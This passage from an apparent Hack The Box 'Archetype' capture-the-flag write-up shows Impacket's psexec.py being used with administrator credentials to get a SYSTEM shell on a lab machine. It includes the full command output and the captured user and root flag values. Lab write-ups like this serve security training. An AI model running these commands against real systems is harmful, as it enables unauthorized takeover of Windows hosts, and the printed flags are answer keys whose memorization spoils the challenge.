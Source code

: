 ### psexec.py
Using the administrator credentials, I can use Impacket's **psexec.py** to escalate privileges to SYSTEM - the equivalent of root on Windows.
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Archetype]
└─$ psexec.py administrator@10.10.10.27
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file hTKJRoBd.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service ZvLh on 10.10.10.27.....
[*] Starting service ZvLh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
~~~
From here, I was able to capture both the user.txt and root.txt flags.
##### user.txt  
Located in C:\Users\sql_svc\Desktop  
**3e7b102e78218e935bf3f4951fec21a3**  
##### root.txt  
Located in C:\Users\Administrator\Desktop  
**b91ccec3305e98240082d4474b848528**
